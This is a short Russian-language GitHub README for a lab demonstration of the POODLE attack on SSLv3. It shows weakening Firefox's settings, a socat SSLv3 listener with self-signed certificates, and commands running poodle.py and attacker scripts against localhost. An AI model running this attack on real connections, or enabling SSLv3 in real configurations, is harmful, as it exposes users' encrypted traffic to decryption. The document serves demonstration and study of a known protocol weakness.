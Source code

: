 # showcase-of-ssl

# устанавливаю уязвимость в конфиге браузера firefox
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/64956cb1-ffe1-43bc-a49d-1dd40c78476d)

# создание связи между сервером и ssl listener
socat -v -x OPENSSL-LISTEN:4433,verify=0,method=SSLv3,cert=cert-poodle.pem,key=key-poodle.pem,reuseaddr,fork TCP:localhost:4080

# для использования стандартных правил iptables
./poodle.py --target-port 4433 --start-offset 384 https://localhost:8443

# создание 3х терминалов 
./poodle-dev.sh httpserver
./poodle-dev.sh sslserver
./poodle-dev.sh attacker-nodebug

# подтверждаем самостоятельно сделанные сертификаты 

# проводим свою атаку
$ ./poodle.py --target-port 4433 --start-offset 384 https://localhost:8443
